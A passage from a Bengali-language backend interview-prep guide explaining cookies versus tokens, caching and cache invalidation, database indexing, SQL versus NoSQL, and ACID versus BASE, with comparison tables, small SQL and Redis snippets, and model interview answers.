- **Storing JWT in LocalStorage:** টোকেন লোকালস্টোরেজে রাখলে সাইটে XSS (Cross-Site Scripting) এটাক হলে হ্যাকার জাভাস্ক্রিপ্ট দিয়ে সহজেই টোকেন চুরি করে নিতে পারে। সিকিউরিটির জন্য কুকি বেস্ট।

### Interview Angle

> "সেশন স্টোর স্টেটফুল এবং সহজে রিভোক করা যায়, তবে স্কেলিংয়ের জন্য শেয়ারড রেডিস প্রক্সি দরকার। অপরদিকে JWT স্টেটলেস এবং ডিস্ট্রিবিউটেড সিস্টেমের জন্য স্কেলেবল, তবে ইনস্ট্যান্ট রিভোক করা কঠিন। প্রোডাকশন গ্রেড সিস্টেমে শর্ট-লাইভড অ্যাক্সেস টোকেন এবং রিফ্রেশ টোকেন রোটেশন স্ট্র্যাটেজি ব্যবহার করে এই দুটিরই ব্যালেন্সড সিকিউরিটি ও স্কেলিং রিচ করা যায়।"


## 10. Cookies vs Tokens

### Core Idea

অনেকে কুকি এবং টোকেনকে মুখোমুখি দাঁড় করিয়ে ফেলেন, কিন্তু বুঝতে হবে: **Cookie হলো একটি ট্রান্সপোর্ট মেকানিজম (Transport Mechanism) এবং Token হলো একটি ক্রেডেনশিয়াল (Credential).**
আপনি চাইলে আপনার JWT টোকেনটিকে ব্রাউজার কুকির ভেতর ভরেই পাস করতে পারেন!

### Cookie vs Custom Header (Token) Comparison

| বৈশিষ্ট্য | Cookies (`Set-Cookie`) | HTTP Header (`Authorization: Bearer`) |
| :--- | :--- | :--- |
| **ম্যানেজমেন্ট** | ব্রাউজার অটোমেটিক্যালি হ্যান্ডেল করে (রিকোয়েস্টের সাথে নিজে পাঠায়)। | জাভাস্ক্রিপ্ট কোড দিয়ে ম্যানুয়ালি স্টোর ও হেডারে পাঠাতে হয়। |
| **Storage** | ব্রাউজার কুকি স্টোরেজ। | লোকালস্টোরেজ, সেশনস্টোরেজ অথবা ইন-মেমোরি ভেরিয়েবল। |
| **XSS Vulnerability** | **Secure** যদি `HttpOnly` ফ্ল্যাগ সেট থাকে (JS কুকি রিড করতে পারে না)। | **Vulnerable** যদি লোকালস্টোরেজে থাকে (JS কোড টোকেন রিড করতে পারে)। |
| **CSRF Vulnerability** | **Vulnerable** যেহেতু ব্রাউজার নিজে থেকেই সব কুকি পাঠায়। | **Secure** কারণ জাভাস্ক্রিপ্ট ছাড়া ব্রাউজার নিজে থেকে হেডার যোগ করে না। |
| **Cross-Domain** | ট্রিকি এবং `SameSite` ও CORS পলিসি কনফিগারেশন দরকার হয়। | অত্যন্ত সহজ, যেকোনো ডোমেইনে হেডার পাঠিয়ে রিকোয়েস্ট করা যায়। |

### Cookie Security Attributes (অপরিহার্য এট্রিবিউটস)

কুকি ডিফেন্স মজবুত করতে নিচের ফ্ল্যাগগুলো সেট করা আবশ্যিক:
- **`HttpOnly`:** জাভাস্ক্রিপ্ট (যেমন `document.cookie`) দিয়ে এই কুকি রিড করা যাবে না। এটি XSS এটাক থেকে টোকেন চুরি যাওয়া পুরোপুরি আটকে দেয়।
- **`Secure`:** কুকিটি শুধুমাত্র HTTPS কানেকশনের মাধ্যমেই ট্রান্সফার হবে, প্লেইন HTTP-তে যাবে না।
- **`SameSite`:**
  - **`Strict`:** কুকিটি অন্য কোনো থার্ড-পার্টি সাইট থেকে অরিজিনেট হওয়া লিংকের মাধ্যমে পাঠানো হবে না।
  - **`Lax`:** স্ট্যান্ডার্ড ও ব্যালেন্সড সিকিউরিটি। নরমাল লিংকে ক্লিক করে সাইটে এলে কুকি যাবে, তবে ব্যাকগ্রাউন্ডে থার্ড-পার্টি রিকোয়েস্টে কুকি যাবে না (CSRF প্রটেকশন)।

### Senior Insight (BFF Pattern)

আধুনিক SPA (Single Page Application, যেমন React/NextJS) সিকিউর করার জন্য **BFF (Backend-For-Frontend)** প্যাটার্ন অত্যন্ত পপুলার। ফ্রন্টএন্ড সরাসরি কোর ব্যাকএন্ড এপিআই গেটওয়ের সাথে কথা না বলে নিজের একটি ছোট নোড সার্ভিস বা নেক্সট জেএস এপিআই রাউটের সাথে কথা বলে।
- BFF সার্ভিসটি সেন্সিটিভ JWT টোকেনগুলো ব্যাকএন্ড থেকে নিয়ে ফ্রন্টএন্ডের জন্য **`HttpOnly Secure SameSite=Lax`** কুকি হিসেবে ব্রাউজারে সেট করে দেয়। এর ফলে ফ্রন্টএন্ড জাভাস্ক্রিপ্টে টোকেন এক্সপোজ হয় না এবং XSS ঝুঁকি ৯৯.৯% কমে যায়।

### Common Mistakes

- **Leaving Cookies unprotected:** সিকিউর কুকি সেট করার সময় `HttpOnly` এবং `Secure` ফ্ল্যাগ এনাবল না করা একটি বড় সিকিউরিটি লুপহোল।
- **Using raw LocalStorage for JWT:** সিকিউর কুকির চেয়ে সহজে ইমপ্লিমেন্ট করা যায় বলে ডিরেক্ট লোকালস্টোরেজে টোকেন রেখে দেওয়া সিকিউর প্রোডাকশন অ্যাপের জন্য অত্যন্ত ঝুঁকিপূর্ণ।

### Interview Angle

> "কুকি হলো ব্রাউজারের অটো-ট্রান্সপোর্ট মেথড এবং টোকেন/হেডার হলো ম্যানুয়াল মেথড। ব্রাউজার বেইজড অ্যাপ্লিকেশনের জন্য সিকিউর HttpOnly, Secure, ও SameSite কুকি ব্যবহার করা বেস্ট সিকিউরিটি প্র্যাকটিস যা XSS প্রতিরোধ করে। মোবাইল এবং থার্ড-পার্টি ক্লায়েন্টের জন্য Bearer টোকেন হেডার দিয়ে হ্যান্ডেল করা বেশি নমনীয়।"


## 11. Caching (Redis, CDN, Cache Invalidation)

### Core Idea

**Caching (ক্যাশিং):** হলো ডেটা প্রসেসিংয়ের পর প্রাপ্ত রেজাল্ট সাময়িকভাবে একটি দ্রুত অ্যাক্সেসযোগ্য মেমোরি বা স্টোরেজে (যেমন RAM) সেভ করে রাখা, যাতে পরবর্তীতে একই রিকোয়েস্ট এলে ডাটাবেস বা বিজনেস লজিক এভয়েড করে দ্রুত ডেটা রিটার্ন করা যায়।

### Cache Layers in Modern Architecture

```text
[ Browser Cache ] --> [ CDN (Cloudflare Edge) ] --> [ Reverse Proxy (Nginx) ] --> [ Redis In-Memory ] --> [ DB ]
```

### Common Cache Patterns (ডিজাইন প্যাটার্নস)

#### ১. Cache-Aside (Lazy Loading)
アプリケーション (অ্যাপ্লিকেশন) প্রথমে ক্যাশে ডেটা খোঁজে। ক্যাশ হিট হলে ডেটা রিটার্ন করে। ক্যাশ মিস হলে ডাটাবেস থেকে ডেটা এনে ক্যাশে সেট করে এবং রিটার্ন করে।



- **সুবিধা:** কুয়েরি করা ডেটাই শুধু ক্যাশ হয়। ডিবি বা ক্যাশ ডাউন থাকলেও অ্যাপ চলে।

#### ২. Write-Through
ডেটা রাইট বা আপডেট হওয়ার সময় অ্যাপ্লিকেশন প্রথমে ক্যাশ আপডেট করে এবং একই সাথে সিনক্রোনাসলি ডাটাবেসে ডেটা রাইট করে।
- **সুবিধা:** ক্যাশ সবসময় আপ-টু-ডেট থাকে, স্টেল (Stale) ডেটা পাওয়ার ঝুঁকি নেই।

#### ৩. Write-Behind (Write-Back)
অ্যাপ্লিকেশন প্রথমে সরাসরি দ্রুত ক্যাশে ডেটা রাইট করে ফেরত চলে যায়। ব্যাকগ্রাউন্ডে একটি অ্যাসিনক্রোনাস প্রসেস ক্যাশ থেকে ডেটা নিয়ে ব্যাচ আকারে ডাটাবেস আপডেট করে।
- **সুবিধা:** এক্সট্রিম হাই রাইট পারফরম্যান্স (যেমন গেমিং স্কোর বা আইওটি ডেটা)।
- **ঝুঁকি:** ডাটাবেসে রাইট হওয়ার আগে মেমোরি ক্র্যাশ করলে ডেটা হারানোর সম্ভাবনা থাকে।

#### ৪. Read-Through
ক্যাশ লেয়ার নিজে ডাটাবেস থেকে ডেটা লোড করার দায়িত্ব নেয়। অ্যাপ্লিকেশন শুধুমাত্র ক্যাশ লেয়ারকে কল করে।

### Cache Invalidation (ক্যাশের সবচেয়ে কঠিন অংশ)

> "There are only two hard things in Computer Science: cache invalidation and naming things." — Phil Karlton

ক্যাশে থাকা পুরনো বা ভুল ডেটা ডিলিট বা আপডেট করার প্রক্রিয়াকে ইনভ্যালিডেশন বলে।
- **TTL (Time to Live):** প্রতিটি ক্যাশ কি-তে এক্সপায়ারি টাইম সেট করা (যেমন ১ ঘন্টা)। মেয়াদ শেষ হলে অটো ক্যাশ ডিলিট হয়ে নতুন ডেটা লোড হবে।
- **Explicit Purging:** ডাটাবেসে কোনো ডেটা এডিট বা ডিলিট হলে সাথে সাথে ক্যাশ কী-টি ম্যানুয়ালি ডিলিট করে দেওয়া:
  ```javascript
  redis.del(`user:${userId}`);
  ```
- **Stale-While-Revalidate:** ক্যাশে ডেটা থাকলে সাথে সাথে পুরনো ডেটাই ইউজারকে রিটার্ন করা হয় এবং ব্যাকগ্রাউন্ডে অ্যাসিনক্রোনাসলি নতুন ডেটা ফেচ করে ক্যাশ আপডেট করা হয়।

### Senior Insight (Mitigating Production Cache Failures)

- **Cache Stampede (Thundering Herd):** একটি অত্যন্ত পপুলার এবং হাই-ট্রাফিক ক্যাশ কী (যেমন হোমপেজ প্রোডাক্টস) এক্সপায়ার হওয়ার সাথে সাথে যদি লাখ লাখ রিকোয়েস্ট একই মিলি-সেকেন্ডে ক্যাশ মিস করে সরাসরি প্রাইমারি ডাটাবেসে হিট করে, তবে ডাটাবেস ক্র্যাশ করে পুরো সিস্টেম ডাউন হয়ে যেতে পারে।
  - **সমাধান:** **Mutex Locking / Request Coalescing** ব্যবহার করা যাতে শুধুমাত্র প্রথম রিকোয়েস্টটি ডিবি থেকে ডেটা আনতে যায় এবং বাকিরা ওয়েট করে প্রথম রিকোয়েস্টের ক্যাশ রাইটের পর ক্যাশ থেকে ডেটা রিড করে।
- **Cache Avalanche:** যদি কোনো কারণে মেমোরি ওভারলোডের জন্য রেডিস রিস্টার্ট নেয় বা সব পপুলার ক্যাশের TTL একসাথে এক্সপায়ার হয়, তবে ডাটাবেসে রিকোয়েস্টের সুনামি বয়ে যায়।
  - **সমাধান:** ক্যাশ TTL সেভ করার সময় সামান্য ডায়নামিক র্যান্ডম ভ্যালু বা **Jitter** যোগ করা (যেমন ১ ঘন্টার বদলে ১ ঘন্টা + ৫/১০ সেকেন্ড র্যান্ডম টাইম), যাতে সব ক্যাশ একসাথে এক্সপায়ার না হয়।

### Common Mistakes

- **Caching Personal/Sensitive Data on Public CDN:** ইউজারের পার্সোনাল ড্যাশবোর্ড বা ব্যালেন্সের মতো ডেটা CDN বা পাবলিক ক্যাশে সেভ করে রাখলে অন্য ইউজারদের ব্রাউজারে সেই সেন্সিটিভ ডেটা শো করতে পারে।
- **No TTL Policies:** ক্যাশ কী-তে টিটিএল সেট না করলে রেডিস মেমোরি ফুল (Out of Memory - OOM) হয়ে ক্র্যাশ করবে। অবশ্যই মেমোরি ইভিকশন পলিসি (যেমন `allkeys-lru`) সেট রাখতে হবে।

### Interview Angle

> "ক্যাশিং আর্কিটেকচারের লেটেন্সি এবং ডাটাবেস লোড নাটকীয়ভাবে কমিয়ে আনে। আমরা ক্যাশ-অ্যাসাইড প্যাটার্ন ও রেডিস ব্যবহার করে ডায়নামিক ক্যাশ এবং এজ লোকেশনে সিডিএন ক্যাশ মেইনটেইন করি। প্রোডাকশন আর্কিটেকচারে ক্যাশ ইনভ্যালিডেশন পলিসি এবং Cache Stampede ও Avalanche প্রতিরোধের জন্য Mutex locking এবং TTL Jitter স্ট্র্যাটেজি ডিজাইন করা অত্যন্ত গুরুত্বপূর্ণ।"


## 12. Database Indexing

### Core Idea

**Database Index:** হলো টেবিলের ডাটার একটি অতিরিক্ত রেফারেন্স স্ট্রাকচার (যেমন B-Tree), যা ডাটাবেসকে পুরো টেবিল স্ক্যান (Full Table Scan) না করে অত্যন্ত দ্রুত রেকর্ড খুঁজে পেতে সাহায্য করে। এটি বইয়ের পেছনের সূচিপত্র বা ইণ্ডেক্সের মতো কাজ করে।

### B-Tree Index Structure (ভিজ্যুয়ালাইজেশন)

ডাটাবেসে ইণ্ডেক্স সাধারণত **Balanced Tree (B-Tree)** ডাটা স্ট্রাকচার হিসেবে সংরক্ষিত থাকে। এটি $O(\log N)$ কমপ্লেক্সিটিতে কুয়েরি এক্সিকিউট করে:



### Common Index Types

1. **Clustered Index:** টেবিলের ডাটা শারীরিকভাবে (Physically) ইণ্ডেক্সের অর্ডারে সাজানো থাকে। প্রতি টেবিলে শুধুমাত্র ১টি ক্লাস্টার্ড ইণ্ডেক্স থাকতে পারে (ডিফল্টভাবে Primary Key)।
2. **Non-Clustered Index:** এটি টেবিলের বাইরে একটি আলাদা রেফারেন্স ফাইল হিসেবে থাকে যা পয়েন্টার (Row ID) দিয়ে রিয়াল ডাটা রো-কে পয়েন্ট করে। একটি টেবিলে একাধিক নন-ক্লাস্টার্ড ইণ্ডেক্স থাকতে পারে।
3. **Composite Index:** একাধিক কলাম একসাথে নিয়ে যে ইণ্ডেক্স তৈরি করা হয় (যেমন `LastName, FirstName`)।
4. **GIN / GiST Index:** PostgreSQL-এ JSONB টাইপ, Geospatial ডাটা বা Full-Text Search-এর জন্য ব্যবহৃত স্পেশাল ইণ্ডেক্স।

### Composite Index & Column Order Strategy

কম্পোজিট ইণ্ডেক্স সেট করার সময় কলামের সিকোয়েন্স বা অর্ডার অত্যন্ত গুরুত্বপূর্ণ।
```sql
CREATE INDEX idx_orders_user_status ON orders(user_id, status);
```
এটি ডাটাবেসকে নিচের কুয়েরিগুলো অপটিমাইজ করতে হেল্প করবে:
- `WHERE user_id = 45` (Left-most prefix matches)
- `WHERE user_id = 45 AND status = 'paid'`

কিন্তু শুধুমাত্র `WHERE status = 'paid'` কুয়েরির ক্ষেত্রে এই ইণ্ডেক্সটি পুরোপুরি ফেইল করবে এবং ডাটাবেস ফুল স্ক্যান করতে বাধ্য হবে। কারণ ইণ্ডেক্সটি বাম থেকে ডানে অর্ডারে কাজ করে।

### Senior Insight

- **Writes overhead:** ইণ্ডেক্স রিড পারফরম্যান্স চরম লেভেলে বাড়িয়ে দিলেও এটি ডাটাবেসের **Write (Insert/Update/Delete)** অপারেশন স্লো করে দেয়। কারণ প্রতিবার ডাটা পরিবর্তন বা নতুন ডাটা ঢোকার সময় ইণ্ডেক্স ফাইলটিও রিবিল্ড করতে হয়।
- **Explain Analyze:** প্রোডাকশনে ইণ্ডেক্স অ্যাড করার আগে অবশ্যই কুয়েরির সামনে `EXPLAIN ANALYZE` রান করে দেখতে হবে ডাটাবেস ইণ্ডেক্স স্ক্যান করছে নাকি সিকোয়েন্সিয়াল স্ক্যান করছে:
  ```sql
  EXPLAIN ANALYZE SELECT * FROM users WHERE email = 'a@example.com';
  ```
- **Low Cardinality Indexing:** জেন্ডার (Male/Female) বা স্ট্যাটাস (Active/Inactive)-এর মতো কম ভ্যারিয়েশনের কলামগুলোতে (Low Cardinality) আলাদা ইণ্ডেক্স করা উচিত নয়। এতে ডাটাবেস ইণ্ডেক্স ফিল্টারের চেয়ে ফুল টেবিল স্ক্যান করা বেশি সুবিধাজনক মনে করে এবং ইণ্ডেক্সটি অলস পড়ে থেকে রাইট ওভারহেড বাড়ায়।

### Common Mistakes

- **Indexing every column blindly:** ডাটাবেসকে ফাস্ট করতে টেবিলের সব কলাম ইণ্ডেক্স করে ফেলা বড় ধরনের বোকামি, যা রাইট স্পিড ধ্বংস করে দেয়।
- **Breaking Index with Functions:** কুয়েরিতে ইণ্ডেক্সড কলামের ওপর কোনো ফাংশন ব্যবহার করলে ইণ্ডেক্স ভেঙে যায়।
  - **ভুল:** `WHERE LOWER(email) = 'x@example.com'` (ইণ্ডেক্স কাজ করবে না যদি না Expressive/Functional Index ক্রিয়েট করা থাকে)।
  - **সঠিক:** `WHERE email = 'x@example.com'`

### Interview Angle

> "ডাটাবেস ইণ্ডেক্স B-Tree ডাটা স্ট্রাকচার ব্যবহার করে $O(\log N)$ এ কুয়েরি স্পিড বাড়ায়। তবে এটি স্টোরেজ এবং রাইট স্পিডের মূল্যে রিড স্পিড অপটিমাইজ করে। সিনিয়র ব্যাকএন্ড ডিজাইন অনুযায়ী, আমরা শুধুমাত্র হাই-কার্ডিনালিটি কলামগুলোতে ইণ্ডেক্স করি, EXPLAIN ANALYZE দিয়ে কুয়েরি প্ল্যান চেক করি এবং কম্পোজিট ইণ্ডেক্সের ক্ষেত্রে কলাম অর্ডারিং স্ট্র্যাটেজি সুনির্দিষ্ট রাখি।"


## 13. SQL vs NoSQL Trade-offs

### Core Idea

- **SQL (Relational Database Management System - RDBMS):** এটি টেবিল-ভিত্তিক স্ট্রাকচার্ড রিলেশনাল মডেল ব্যবহার করে। ডাটাবেসের টেবিলগুলোর মাঝে কড়া সম্পর্ক (Foreign Key Joins) এবং রিজিড স্কিমা (Rigid Schema) থাকে (যেমন: PostgreSQL, MySQL, SQL Server)।
- **NoSQL (Non-Relational Database):** এটি কোনো ফিক্সড স্কিমা ছাড়া ডকুমেন্ট (JSON/BSON), কী-ভ্যালু, কলাম-ফ্যামিলি বা গ্রাফ ফরম্যাটে আন-স্ট্রাকচার্ড বা সেমি-স্ট্রাকচার্ড ডাটা স্টোর করে (যেমন: MongoDB, Redis, Cassandra, DynamoDB)।

```text
  [ SQL Structure ]                    [ NoSQL (Document) Structure ]
┌─────────────────────────┐           ┌────────────────────────────────┐
│  Users Table            │           │  User Document (MongoDB)       │
├────┬─────────┬──────────┤           │  {                             │
│ ID │ Name    │ Email    │           │    "_id": 1,                   │
├────┼─────────┼──────────┤           │    "name": "Awolad",           │
│ 1  │ Awolad  │ a@ex.com │           │    "email": "a@ex.com",        │
└────┴─────────┴──────────┘           │    "orders": [                 │
                                      │       {"id": 101, "total": 50} │
                                      │    ]                           │
                                      │  }                             │
                                      └────────────────────────────────┘
```

### SQL vs NoSQL Trade-offs Table

| বৈশিষ্ট্য | SQL (PostgreSQL/MySQL) | NoSQL (MongoDB/Cassandra) |
| :--- | :--- | :--- |
| **Data Model** | Relational, Table-based, Rigid Schema. | Document, Key-Value, Columnar, Graph. Flexible Schema. |
| **Querying** | standard SQL, Complex Joins, Subqueries. | Query-driven API, No standard joins (requires denormalization). |
| **Transactions** | Strict **ACID** (Atomicity, Consistency, Isolation, Durability) guarantees. | Standard BASE model (Eventual Consistency). ACID only in single docs (mostly). |
| **Scaling** | **Vertical Scaling** (Scale Up). Horizontal Scaling is complex (Requires replicas/sharding). | **Horizontal Scaling** (Scale Out) out-of-the-box using Sharding. |
| **Integrity** | Data integrity is enforced at the database level (Constraints). | Enforced at the application level. |

### choosing the Right Database



### Senior Insight

- **The "Schema-less" Myth:** NoSQL ডাটাবেস কিন্তু মোটেও স্কিমা-লেস নয়। ডাটাবেস লেভেলে স্কিমা ডিফাইন না করা থাকলেও স্কিমাটি আসলে শিফট হয়ে **Application Layer (Code)**-এ চলে যায় (যেমন Mongoose schema বা টাইপ ভ্যালিডেশন)। কোডে সঠিক স্কিমা আর্কিটেকচার না রাখলে NoSQL ডাটাবেস জগাখিচুড়ি হয়ে রিড পারফরম্যান্স চরমভাবে কমে যায়।
- **Postgres as a Hybrid Solution:** আধুনিক PostgreSQL-এ `JSONB` ডাটা টাইপ যোগ করার পর নো-এসকিউএল ডাটাবেসের প্রয়োজনীয়তা অনেক কমে গেছে। আপনি একই ডিবির ভেতর রিলেশনাল ডাটার পাশাপাশি আন-স্ট্রাকচার্ড JSON ডেটা হাই-স্পিড ইনডেক্সিং (using GIN Index) সহ কুয়েরি করতে পারবেন।

### Common Mistakes

- **Using MongoDB for relational workloads:** রিলেশনাল ডাটা যেমন ই-কমার্সের অর্ডার, কাস্টমার, ইনভয়েস ইত্যাদি মঙ্গোডিবিতে ডিজাইন করে কোডের ভেতর লুপ চালিয়ে ডুপ্লিকেট ম্যানুয়াল জয়েন করা একটি ভয়াবহ আর্কিটেকচারাল ভুল।
- **Thinking SQL cannot scale:** আধুনিক মনোলিথ বা আরডিবিএমএস (Postgres) সঠিক ইনডেক্সিং, রিড রেপ্লিকা এবং কানেকশন পুলিং দিয়ে মিলি-সেকেন্ডে লাখ লাখ কুয়েরি সফলভাবে হ্যান্ডেল করতে পারে। স্কেলিংয়ের ছুতোয় শুরুতেই নো-এসকিউএল ব্যবহারের দরকার নেই।

### Interview Angle

> "SQL চমৎকার ট্রানজেকশনাল ইন্টিগ্রিটি (ACID), স্ট্রাকচার্ড রিলেশনশিপ এবং জটিল কুয়েরি অপটিমাইজেশন দেয়। অপরদিকে NoSQL চমৎকার অনুভূমিক স্কেলিং (Horizontal Scaling) এবং হাই-থ্রুপুট রাইট অপারেশন সাপোর্ট করে। আমরা ফাইনান্সিয়াল ও ট্রানজেকশনাল সিস্টেমে PostgreSQL এবং লাইভ ট্র্যাকিং, চ্যাট হিস্ট্রি বা হাই-ভলিউম ইভেন্ট লগের ক্ষেত্রে MongoDB বা Cassandra বেছে নিই।"


## 14. ACID vs BASE

### Core Idea

- **ACID:** রিলেশনাল ডাটাবেসের একটি ট্রানজেকশন মডেল যা শতভাগ ডেটা রিলায়েবিলিটি এবং নির্ভুলতা নিশ্চিত করে। এটি স্ট্রিক্ট এবং স্টেটফুল।
- **BASE:** ডিস্ট্রিবিউটেড এবং নো-এসকিউএল সিস্টেমে ব্যবহৃত একটি নমনীয় ডাটা মডেল যা স্কেলাবিলিটি ও এভেইলেবিলিটির জন্য আংশিক ডেটা কনসিস্টেন্সি স্যাক্রিফাইজ করতে পারে।

### ACID vs BASE Comparison Table

| ACID (Stateful & Relational) | BASE (Stateless & Distributed) |
| :--- | :--- |
| **Atomicity:** সব কাজ সাকসেসফুল হবে, নয়তো পুরো ট্রানজেকশন রোলব্যাক হবে। | **Basically Available:** আংশিক ফেইলিউর থাকলেও সিস্টেমের রেসপন্স সচল থাকবে। |
| **Consistency:** ডাটাবেস সর্বদা ভ্যালিড স্টেট ও কনস্ট্রেইন্ট রুলস মেনে চলবে। | **Soft State:** নেটওয়ার্ক বা সিঙ্ক ল্যাগের কারণে ডাটা সাময়িকভাবে ইন-কনসিস্টেন্ট হতে পারে। |
| **Isolation:** কনকারেন্ট ট্রানজেকশনগুলো একে অপরকে দেখতে বা করাপ্ট করতে পারবে না। | **Eventual Consistency:** কোনো নির্দিষ্ট মেয়াদে কুয়েরি ল্যাগ শেষে সব নোড আপডেট হয়ে যাবে। |
| **Durability:** একবার ট্রানজেকশন কমিট হলে তা চিরতরে সেভ থাকবে (ক্র্যাশ হলেও মুছবে না)। | স্কেলিং ও পারফরম্যান্সকে ডেটা কনসিস্টেন্সির উপরে স্থান দেওয়া হয়। |

### transactional Flows: ACID vs BASE



### Senior Insight

- **Distributed ACID is Slow:** ডিস্ট্রিবিউটেড ডাটাবেসে (যেমন Google Spanner বা CockroachDB) কড়া ACID গ্যারান্টি দেওয়া অত্যন্ত জটিল ও স্লো, কারণ নোডগুলোর মাঝে টু-ফেজ কমিট (2PC - Two-Phase Commit) নেটওয়ার্ক ওভারহেড তৈরি করে।
- **Choosing the Right Level:** ফিনান্সিয়াল বুকিং বা ব্যাংকিং এপিআই-তে অবশ্যই ACID ডাটাবেস বাধ্যতামূলক। অপরদিকে সোশ্যাল মিডিয়া লাইক কাউন্ট, নোটিফিকেশন ভিউ কাউন্টার বা চ্যাট স্ট্যাটাস-এর ক্ষেত্রে BASE মডেল (Eventual Consistency) বেছে নিয়ে ডেটাবেস সিস্টেম চরম স্কেল করা সম্ভব।

### Common Mistakes

- **Using BASE model for stock ledger:** ই-কমার্স ইনভেন্টরি ট্র্যাকিং সিস্টেমে এভেনচুয়াল কনসিস্টেন্সি ব্যবহার করলে দেখা যাবে প্রোডাক্ট স্টকে ১টা আছে কিন্তু ২ জন ইউজার একই সাথে পেমেন্ট করে বুক করে ফেলেছে।
- **Forcing ACID on high-speed log ingestion:** হাই-স্পিড ইভেন্ট ট্র্যাকিং বা আইওটি ডেটা স্ট্রিমে ACID রুলস ধরে রাখতে গেলে লকিং ওভারহেডের জন্য ডাটাবেস রাইট কুয়েরি জ্যাম হয়ে রাইট সার্ভিস ক্র্যাশ করতে পারে।

### Interview Angle

> "ACID ট্রানজেকশনের প্রতিটি ধাপে শতভাগ নির্ভরযোগ্যতা ও ডাটা ইন্টিগ্রিটির গ্যারান্টি দেয়, যা ব্যাংকিং বা ফিনান্সিয়াল ফ্লোর জন্য আবশ্যক। অপরদিকে BASE ডিস্ট্রিবিউটেড সিস্টেমে হাই-এভেইলেবিলিটি ও স্কেলাবিলিটি অর্জনের জন্য Eventual Consistency মেনে নেয়, যা সোশ্যাল মিডিয়া বা অ্যানালিটিক্স লগের জন্য আদর্শ।"


## 15. Normalization vs Denormalization

### Core Idea

- **Normalization (নরমালাইজেশন):** হলো ডাটাবেস ডিজাইন করার এমন একটি পদ্ধতি যা ডাটাবেস থেকে অনাকাঙ্ক্ষিত ডুপ্লিকেট ডাটা (Redundancy) হ্রাস করে এবং ডাটাবেসকে একাধিক ছোট ছোট রিলেশনাল টেবিলে বিভক্ত করে (যেমন: 1NF, 2NF, 3NF)।
